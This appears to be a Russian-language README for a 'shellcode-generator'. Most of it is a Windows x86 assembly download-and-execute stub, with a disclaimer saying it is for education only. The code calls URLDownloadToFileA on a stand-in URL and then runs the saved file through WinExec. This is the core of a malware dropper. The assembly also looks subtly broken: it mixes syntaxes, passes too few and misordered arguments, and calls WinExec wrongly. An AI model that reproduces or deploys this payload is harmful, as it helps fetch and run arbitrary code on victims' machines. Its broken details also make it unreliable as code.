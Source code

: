 # shellcode-generator

Программа генерирует шеллкод (машинные инструкции) и выводит их на экран.
Данный шеллкод загружает файл по ссылке и запускает его.

Программу запрещается использовать в противоправных целях. Она реализована в целях обучения.
В данной программу нет реального выполнения шеллкода. Выполнение шеллкода остается на усмотрение того, кто использует программу.
Обращаю внимание, что использование программы может быть запрещено местным законодательством вашей страны, а так же нарушать этические нормы и правила общества.

    section .text
    global _start
    
    _start:
    ; Инициализация библиотеки URLMON.dll
    push offset urlmon_dll
    call LoadLibraryA

    ; Загрузка файла по ссылке
    push 0
    push offset url
    push offset file_path
    call URLDownloadToFileA

    ; Загрузка библиотеки kernel32.dll
    push offset kernel32_dll
    call LoadLibraryA

    ; Получение адреса функции WinExec
    push offset win_exec
    push eax
    call GetProcAddress

    ; Запуск загруженного файла
    push offset file_path
    call eax

    ; Выход
    push 0
    call ExitProcess

    section .data
    urlmon_dll db 'urlmon.dll', 0
    kernel32_dll db 'kernel32.dll', 0
    url db 'http://example.com/file.exe', 0
    file_path db 'C:\path\to\save\file.exe', 0
    win_exec db 'WinExec', 0
    
    section .idata
    dd 0,0,0,0,0
    URLDownloadToFileA dd 0, 0, 0, 0
    LoadLibraryA dd 0, 0, 0, 0
    GetProcAddress dd 0, 0, 0, 0
    ExitProcess dd 0, 0, 0, 0
